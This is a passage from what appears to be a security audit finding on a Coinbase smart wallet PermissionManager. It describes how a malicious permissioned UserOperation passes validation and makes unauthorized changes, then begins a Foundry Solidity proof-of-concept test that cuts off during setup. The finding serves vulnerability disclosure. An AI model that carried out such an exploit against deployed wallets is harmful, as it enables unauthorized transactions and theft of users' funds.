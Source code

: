 ## Execution:

Successful execution can be proven by calling permissionManager.isValidSignature() or victimWallet.validateUserOp() with the malicious permissioned user op
For e2e proof of concept, submit the malicious UserOperation to the entrypoint as a bundle, which will pass validation and then execute the batches of operations and result in unauthorized changes.

## Proof of Concept:

```solidity
Code 10.84 KiBUnwrap lines Copy Download
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test, console2} from "forge-std/Test.sol";
import {PermissionCallable} from "src/mixins/PermissionCallable.sol";
import {MockCoinbaseSmartWallet} from "./mocks/MockCoinbaseSmartWallet.sol";
import {ERC4337, MockERC4337} from "solady/../test/utils/mocks/MockERC4337.sol";
import {PermissionManager} from "../src/PermissionManager.sol";
import {MockPermissionContract} from "./mocks/MockPermissionContract.sol";
import {UserOperation, UserOperationLib} from "src/utils/UserOperationLib.sol";
import {CoinbaseSmartWallet} from "smart-wallet/CoinbaseSmartWallet.sol";
import {MultiOwnable} from "smart-wallet/MultiOwnable.sol";
import {MagicSpend} from "magic-spend/MagicSpend.sol";
import {IEntryPoint} from "lib/smart-wallet/lib/account-abstraction/contracts/interfaces/IEntryPoint.sol";
import {ECDSA} from "solady/utils/ECDSA.sol";
import {EntrypointRuntimeBytecode} from "./EntrypointRuntimeBytecode.sol";
import {ERC1967Proxy} from "smart-wallet/../lib/webauthn-sol/lib/FreshCryptoLib/solidity/tests/WebAuthn_forge/lib/openzeppelin-contracts/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import {UUPSUpgradeable} from "solady/utils/UUPSUpgradeable.sol";

contract Findings is Test, EntrypointRuntimeBytecode {
    PermissionManager permissionManager;
    uint256 ownerPk = uint256(keccak256("owner"));
    address owner = vm.addr(ownerPk);
    uint256 cosignerPk = uint256(keccak256("cosigner"));
    address cosigner = vm.addr(cosignerPk);
    uint256 permmissionSignerPk = uint256(keccak256("permissionSigner"));
    address permissionSigner = vm.addr(permmissionSignerPk);
    address entrypoint = 0x5FF137D4b0FDCD49DcA30c7CF57E578a026d2789;
    // userop
    uint256 callGasLimit = 491520;
    uint256 verificationGasLimit = 378989;
    uint256 preVerificationGas = 273196043;
    uint256 maxFeePerGas = 1000304;
    uint256 maxPriorityFeePerGas = 1000000;
    // withdraw request
    MagicSpend.WithdrawRequest withdrawRequest = MagicSpend.WithdrawRequest({
        asset: address(0x0),
        amount: 274908076657120,
        nonce: 0,
        expiry: type(uint48).max,
        signature: '' // empty; must be populated per test
    });

    MockCoinbaseSmartWallet account;
    MockPermissionContract successPermissionContract;
    MockPermissionContract failPermissionContract;

// when PermissionManager is enabled for a coinbase smart wallet with another smart contract wallet owner (eg a second coinbase smart wallet or a gnosis safe),
```